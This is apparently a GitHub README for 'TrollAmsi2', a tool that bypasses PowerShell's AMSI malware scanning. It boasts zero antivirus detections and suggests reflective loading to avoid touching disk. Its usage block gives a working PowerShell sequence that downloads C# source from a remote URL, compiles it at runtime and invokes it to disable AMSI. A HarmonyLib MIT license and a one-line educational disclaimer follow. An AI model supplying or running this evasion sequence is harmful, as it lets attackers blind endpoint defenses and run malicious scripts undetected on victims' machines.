 # TrollAmsi2
Bypass powershell amsi \
Both files are 0/72 on virus total and clean on hybrid-analysis \
If you are concerned with dropping on disk, ofcourse you can reflectively load
  
## Usage 
```
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!

